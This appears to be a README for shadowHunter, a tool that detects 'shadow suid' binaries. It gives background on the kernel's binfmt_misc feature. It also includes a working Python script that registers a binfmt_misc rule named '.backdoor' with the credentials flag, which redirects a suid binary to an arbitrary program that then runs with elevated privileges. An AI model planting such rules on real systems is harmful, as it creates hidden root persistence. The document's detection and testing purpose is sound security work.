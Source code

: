 # shadowHunter

## What?
Python script to find "shadow suid" binaries on a system

## Why?
Cause I got annoyed with SentinelOne and https://securityboulevard.com/2019/01/how-shadow-suids-can-be-used-to-exploit-linux-systems-part-1/ suggests you're better off with their protection

## Background
The technique demonstated is based on the the binfmt_misc feature baked into most kernels which allows running things like java programs directly from the command line see https://www.kernel.org/doc/html/v4.11/admin-guide/binfmt-misc.html

## Script for creating
Below is a simple script for generating binfmt_misc rules

```
#!/usr/bin/env python
import sys

s = ":.backdoor:M::"
with open(sys.argv[1]) as f:
    s += repr(f.read(127)).replace("'", "")

s += "::" + sys.argv[2] + ":C\n"
with open("/proc/sys/fs/binfmt_misc/register", "w") as r:
    r.write(s)

```

This script takes the target binary as 1st arg and binary to redirect to as second arg. Read the above blog post for info on how to remove once created.

Cheers
